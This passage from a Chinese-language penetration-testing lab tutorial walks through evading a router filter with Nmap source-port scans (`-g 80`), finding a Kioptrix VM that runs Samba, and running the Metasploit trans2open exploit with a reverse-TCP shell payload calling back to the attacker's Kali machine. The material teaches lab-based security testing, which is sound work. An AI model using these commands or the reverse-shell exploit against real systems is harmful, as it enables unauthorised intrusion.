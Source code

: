 ![穿透过滤器的技巧](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/bd-vrt-pentest-lab/img/477-1_07-57.jpg)

成功！我们现在对过滤器后面的目标有了更多的细节；因此，我们现在可以按照我们的正常测试方法对其进行测试，只要我们从源端口 80 生成我们的流量。

由于我们可以访问过滤器后面的机器上打开的所有端口，让我们进一步调查一下。我们可以尝试使用漏洞扫描程序，但在大多数情况下，它们并不是设计用来穿过过滤器的，所以我们将不得不手动从目标上运行的服务中提取信息，并查看是否能找到一些可能成为我们攻击向量的东西，假设我们可以从端口 80 发送我们的攻击。这是我们需要进一步研究的事情。

首先，我们想要查看这些端口上运行了什么，所以我们可以使用 Nmap 从这些端口获取横幅。

### 注意

您也可以使用 Netcat 来绕过过滤器并使用 `-p` 选项来从特定源端口到达目标。这留作读者的练习。

我们可以使用许多不同的扫描技术来从目标获取服务信息；我们将使用其中一种较老但仍然有效且比一些新技术更快的技术。在您的 Kali 机器终端窗口中，输入 `nmap -g 80 –sV 10.2.0.132` 来获取服务的横幅。示例如下截图所示：

![穿透过滤器的技巧](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/bd-vrt-pentest-lab/img/477-1_07-58.jpg)

在前面的截图中，有趣的是扫描显示端口 139 和 145 是开放的，这些端口通常在 Windows 平台上找到。

从这里开始，流程是寻找服务或操作系统的易受攻击版本，然后尝试利用漏洞进行攻击。为了执行这个过程，我们将使用另一台用于测试的机器，那台机器是来自[`www.kioptrix.com/blog/`](http://www.kioptrix.com/blog/)的 Kioptrix 发行版。我们可以从该网站下载许多发行版。我们将使用 **Level 1** 版本。流程是打开虚拟机并在设置中将其连接到 VMnet2 网络；通过这样做，我们有一台可以进行测试的机器。

虚拟机设置的示例如下截图所示：

![穿透过滤器的技巧](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/bd-vrt-pentest-lab/img/477-1_07-59.jpg)

一旦机器启动，我们需要确定 DHCP 服务器分配的 IP 地址。我们可以通过扫描 VMnet2 子网来做到这一点。

在您的 Kali 机器终端窗口中输入 `nmap –g 20 –sP 10.2.0.100-200` 进行针对 VMnet2 网络的 ping 扫描。我们有幸知道 DHCP 服务器的起始和结束 IP 范围，所以我们将在这里使用它来加快扫描速度。扫描的示例如下截图所示：

![穿透过滤器的技巧](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/bd-vrt-pentest-lab/img/477-1_07-60.jpg)

我们看到我们的结果中有三个目标，我们知道 132 号机器是 OWASP，135 号机器是我们的 Kali 机器；因此，我们感兴趣的目标是 140 号机器。这一切都是因为路由器上的弱过滤器配置。一旦我们找到了突破口，我们将继续使用它。我们需要知道目标上运行的服务，所以输入`nmap –g 80 –sV 10.2.0.140`来显示目标的服务信息。我们知道这个目标机器不是 Windows 机器，但我们在目标上看到了类似 Windows 端口的开放。

由于这种情况，我们可以得出结论，samba 正在运行在这台机器上。有许多 samba 漏洞；我们可以对它们进行研究，并尝试看看我们是否成功。

我们介绍了许多发现漏洞的技术，我们将为您节省一些麻烦，看看一些可用的 samba 利用程序。如果输入`msfconsole`来启动 metasploit 工具，程序启动需要一些时间，一旦启动，我们想使用出色的搜索功能；输入`search samba`。以下截图显示了部分结果的示例：

![渗透过滤器的技巧](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/bd-vrt-pentest-lab/img/477-1_07-61.jpg)

如前面的截图所示，我们有许多可用的利用程序；我们希望选择评级为“优秀”或更高的那些，因为这将提供最大的成功机会。话虽如此，成功并不保证，但这就是利用的现实。那么，你会选择哪一个？好吧，我们已经讨论了研究的概念，这就是你找出哪一个对你最有效的方法。我们将为您节省时间；在您的 metasploit 窗口中输入以下内容：

```
use exploit/linux/samba/trans2open
set RHOST 10.2.0.140
set payload linux/x86/shell/reverse_tcp
set LHOST 10.2.0.135
set LPORT 123
exploit

```
